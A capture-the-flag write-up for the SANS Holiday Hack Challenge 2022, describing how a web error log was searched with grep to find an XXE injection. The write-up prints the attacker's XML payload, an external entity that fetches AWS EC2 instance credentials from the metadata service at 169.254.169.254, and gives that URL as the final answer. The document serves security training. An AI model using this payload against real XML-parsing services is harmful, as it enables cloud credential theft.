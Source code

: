 # Recover the Web Ring: IMDS, XXE, and Other Abbreviations  
**SANS Holiday Hack Challenge 2022 – KringleCon V: Golden Rings**  
**Difficulty:** 🎄🎄

## Overview  
This challenge demonstrates a server-side request forgery (SSRF) scenario via an XML External Entity (XXE) vulnerability. The objective was to identify the exact URL the attacker forced the web server to fetch from the AWS Instance Metadata Service (IMDS).

---

## Steps Performed

### 1. Use the `weberror.log` File  
The challenge could be solved using either a packet capture or the `weberror.log` file. I chose the latter and searched for XML content indicating XXE injection.

---

### 2. Search for `access` Keyword  
Using the known keyword `"access"`, I searched for log entries that included references to AWS access credentials and XML content:

```bash
grep -m 1 -A 24 -B 13 -i "access" weberror.log
```

This revealed an XML payload in the request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"> ]>
<product>
  <productId>&id;</productId>
</product>
```

---

### 3. Identify the Targeted URL  
From the XML entity declaration, it’s clear that the attacker exploited the XXE vulnerability to exfiltrate sensitive credentials by referencing this IMDS path:

```
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

---

## Outcome  
By leveraging an XXE attack, the adversary accessed AWS instance credentials via the metadata endpoint.

**Final Answer:**  
```
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```
